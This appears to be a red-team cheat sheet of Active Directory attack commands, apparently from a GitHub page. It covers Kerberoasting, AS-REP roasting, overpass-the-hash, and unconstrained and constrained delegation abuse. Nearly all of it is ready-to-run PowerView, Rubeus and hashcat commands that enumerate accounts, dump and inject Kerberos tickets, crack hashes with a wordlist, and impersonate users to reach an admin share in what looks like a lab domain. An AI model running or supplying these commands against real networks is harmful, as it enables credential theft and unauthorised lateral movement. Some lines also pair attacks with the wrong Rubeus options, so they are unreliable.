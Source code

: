 ### Kerberoasting
```
powershell Get-DomainUser -SPN -Properties SamAccountName, ServicePrincipalName
Rubeus kerberoast /outfile:hashes.asreproast
hashcat64.exe -a 0 -m 13100 C:\Users\NyaMeeEain\hashes.asreproast C:\Users\NyaMeeEain\Data\rockyou.txt -o winpass2.txt --force  --potfile-disable
```

### ASREPRoasting
```
powershell Get-DomainUser -PreauthNotRequired -Properties SamAccountName
Rubeus kerberoast format:hashcat /outfile:hashes.asreproast
hashcat64.exe -a 0 -m 18200 C:\Users\NyaMeeEain\hashes.asreproast C:\Users\NyaMeeEain\Data\rockyou.txt --force  --potfile-disable
```
### Overpass-the-Hash
```
Rubeus triage
Rubeus asktgt /user:n.John /rc4:2e8a408a8aec852ef2e458b938b8c071
Rubeus ptt /ticket:doIFXDCCBVi[…snip…]bDWN5YmVyYm90aWMuaW8=
```
### Unconstrained Delegation
the server or the service account that is granted this right is able to impersonate a user to authenticate to any services on any host,you are granting that account permission to delegate to any service
```
powershell Get-DomainComputer -Unconstrained -Properties DnsHostName
powershell Get-DomainGPOLocalGroup
powershell Get-DomainGroupMember -identity 'Workstation Admins' -recurse | select -exp membername 
powershell Get-DomainOU -GPLink '{66465373-16CB-4F96-BD3A-12AE7D2C2371}' | % {Get-DomainComputer -SearchBase $_.distinguishedname -Properties dnshostname}
execute-assembly C:\Users\Public\Rubeus.exe triage
execute-assembly C:\Users\Public\Rubeus.exe dump /service:krbtgt
Rubeus dump /luid:0x1b37e  
Rubeus createnetonly /program:C:\Windows\System32\cmd.exe
Rubeus ptt /luid:0x21d8e17 /ticket:[...snip...]

```
```
execute-assembly C:\Users\Public\Rubeus.exe triage
execute-assembly C:\Users\Public\Rubeus.exe dump /luid:0x1f5d5  
execute-assembly C:\Users\Public\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
execute-assembly C:\Users\Public\Rubeus.exe ptt /luid:0x686cf9 /ticket:
```

### Constrained Delegation
constrained delegation takes it a step further by allowing you to configure which services an account can be delegated to.it limits delegation to a specified list, rather than allowing delegation to any service as in unconstrained delegation.
```
powershell Get-DomainComputer -TrustedToAuth -Properties DnsHostName, MSDS-AllowedToDelegateTo
powershell Get-DomainComputer web-2.cyberbotic.io | select -exp msds-AllowedToDelegateTo 
powershell Get-DomainComputer -TrustedToAuth | select -exp dnshostname 
Rubeus dump /service:krbtgt
Rubeus s4u /impersonateuser:n.glover /msdsspn:cifs/fs-1.cyberbotic.io /ticket:[...snip...]
Rubeus createnetonly /program:C:\Windows\System32\cmd.exe
Rubeus ptt /luid:0x239b995 /ticket:[...snip...]
ImpersonateProcess 3420
ls \\fs-1.cyberbotic.io\c$
```


